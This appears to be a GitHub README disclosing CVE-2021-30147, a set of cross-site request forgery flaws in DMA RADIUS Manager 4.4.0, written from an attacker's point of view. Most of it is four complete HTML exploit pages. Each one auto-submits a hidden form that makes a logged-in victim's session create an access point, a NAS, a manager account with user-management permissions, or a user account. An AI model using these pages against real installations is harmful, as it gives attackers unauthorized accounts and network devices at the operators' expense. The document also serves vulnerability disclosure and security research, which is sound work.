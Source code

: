 # CVE-2021-30147 (DMA RADIUS Manager 4.4.0)

## CSRF - Creating Access Points

This exploit requires an attacker to have access to the web interface of the RADIUS Manager but an account isn't required (instead, this CSRF can be exploited in order to create an account for the attacker.). It also requires the victim to browse to our custom crafted webpage & be already logged in as a RADIUS user with the appropriate privileges for the certain action we want them to execute (EX: If we want the victim's account to create a new user account for us, the victim must be logged in as someone with sufficient privileges that allows them to create an account). 

By crafting a web page with the appropriate parameters for a POST request to the appropriate endpoint & having a victim visit our webpage, we're able to do various things by exploiting this vulnerability, such as:

* create a regular user or manager account
* create an access point
* create a new IP pool
* create a new CMTS
* create a new NAS
* create a new service plan

### Creating A New Access Point

The HTML for the website we'd use is:

```html
<html>

<body>
    <!-- change url to appropriate URL -->
    <form action="http://radmandemo.dmasoftlab.com/admin.php?cont=store_ap" method="POST">
        <input type="hidden" name="enable" value="1" />
        <input type="hidden" name="name" value="csrf_AP" />
        <input type="hidden" name="ip" value="192.168.1.2" />
        <input type="hidden" name="accessmode" value="0" />
        <input type="hidden" name="community" value="5" />
        <input type="hidden" name="apiusername" value="S" />
        <input type="hidden" name="apipassword" value="S" />
        <input type="hidden" name="apiver" value="0" />
        <input type="hidden" name="description" value="" />
        <input type="hidden" name="Submit" value="Store AP" />
        <input type="hidden" name="id" value="" />
    </form>
    <script>
        document.forms[0].submit();
    </script>
</body>
</html>
```

All we need now is a victim that's logged in to browse to our webpage...and:

![CSRF adding access pt](demos/csrf-ap-2021-04-05-181829.gif)



### Creating A New NAS

HTML source code:

```html
<html>
	<body>
        <!-- change url to appropriate URL -->
		<form action="http://radmandemo.dmasoftlab.com/admin.php?cont=store_nas" method="POST">
			<input type="hidden" name="name" value="CSRF_EXAMPLE" />
			<input type="hidden" name="nasip" value="192.168.1.6" />
			<input type="hidden" name="type" value="0" />
			<input type="hidden" name="secret" value="CSRF_EX" />
			<input type="hidden" name="coamode" value="0" />
			<input type="hidden" name="apiusername" value="" />
			<input type="hidden" name="apipassword" value="" />
			<input type="hidden" name="apiver" value="0" />
			<input type="hidden" name="descr" value="" />
			<input type="hidden" name="Submit" value="Add NAS" />
		</form>
	<script>
		document.forms[0].submit();
	</script>

	</body>
</html>
```

Once victim browses to our webpage...:

![CSRF adding NAS](demos/csrf-addnas-2021-04-05-191251.gif)



### Adding A New Manager Account

HTML source code:

```html
<html>
	<body>
        <!-- change url to appropriate URL -->
		<form action="http://radmandemo.dmasoftlab.com/admin.php?cont=store_manager" method="POST">
			<input type="hidden" name="enablemanager" value="1" />
			<input type="hidden" name="managername" value="csrf_man" />
			<input type="hidden" name="password1" value="csrf" />
			<input type="hidden" name="password2" value="csrf" />
			<input type="hidden" name="firstname" value="" />
			<input type="hidden" name="lastname" value="" />
			<input type="hidden" name="company" value="" />
			<input type="hidden" name="address" value="" />
			<input type="hidden" name="city" value="" />
			<input type="hidden" name="zip" value="" />
			<input type="hidden" name="country" value="" />
			<input type="hidden" name="state" value="" />
			<input type="hidden" name="phone" value="" />
			<input type="hidden" name="mobile" value="" />
			<input type="hidden" name="email" value="" />
			<input type="hidden" name="vatid" value="" />
			<input type="hidden" name="lang" value="English" />
			<input type="hidden" name="comment" value="" />
			<input type="hidden" name="perm_listusers" value="1" />
			<input type="hidden" name="perm_createusers" value="1" />
			<input type="hidden" name="Submit" value="Add manager" />
		</form>
	<script>
		document.forms[0].submit();
	</script>
	</body>
</html>
```

And once victim browses to our webpage...:

![CSRF adding new manager account](demos/csrf-addmanager-2021-04-05-19103.gif)



### Adding A New User

HTML source code:

```html
<html>
	<body>
        <!-- change url to appropriate URL -->
		<form action="http://radmandemo.dmasoftlab.com/admin.php?cont=store_user" method="POST">
			<input type="hidden" name="username" value="csrf_usr" />
			<input type="hidden" name="enableuser" value="1" />
			<input type="hidden" name="acctype" value="0" />
			<input type="hidden" name="password1" value="csrfusr" />
			<input type="hidden" name="password2" value="csrfusr" />
			<input type="hidden" name="maccm" value="" />
			<input type="hidden" name="mac" value="" />
			<input type="hidden" name="ipmodecpe" value="0" />
			<input type="hidden" name="simuse" value="1" />
			<input type="hidden" name="firstname" value="" />
			<input type="hidden" name="lastname" value="" />
			<input type="hidden" name="company" value="" />
			<input type="hidden" name="address" value="" />
			<input type="hidden" name="city" value="" />
			<input type="hidden" name="zip" value="" />
			<input type="hidden" name="country" value="" />
			<input type="hidden" name="state" value="" />
			<input type="hidden" name="phone" value="" />
			<input type="hidden" name="mobile" value="" />
			<input type="hidden" name="email" value="" />
			<input type="hidden" name="taxid" value="" />
			<input type="hidden" name="srvid" value="0" />
			<input type="hidden" name="downlimit" value="0" />
			<input type="hidden" name="uplimit" value="0" />
			<input type="hidden" name="comblimit" value="0" />
			<input type="hidden" name="expiration" value="2021-04-06" />
			<input type="hidden" name="uptimelimit" value="00:00:00" />
			<input type="hidden" name="credits" value="0.00" />
			<input type="hidden" name="contractid" value="" />
			<input type="hidden" name="contractvalid" value="" />
			<input type="hidden" name="gpslat" value="" />
			<input type="hidden" name="gpslong" value="" />
			<input type="hidden" name="comment" value="" />
			<input type="hidden" name="superuser" value="{SUPERUSER}" />
			<input type="hidden" name="lang" value="English" />
			<input type="hidden" name="groupid" value="1" />
			<input type="hidden" name="custattr" value="" />
			<input type="hidden" name="cnic" value="" />
			<input type="hidden" name="cnicfile1" value="(binary)" />
			<input type="hidden" name="cnicfile2" value="(binary)" />
			<input type="hidden" name="adduser" value="Add user" />
		</form>
	<script>
		document.forms[0].submit();
	</script>
	</body>
</html>
```

And one last visit from our victim to our webpage...:

![CSRF adding a new user](demos/csrf-addusr-2021-04-05-191131.gif)
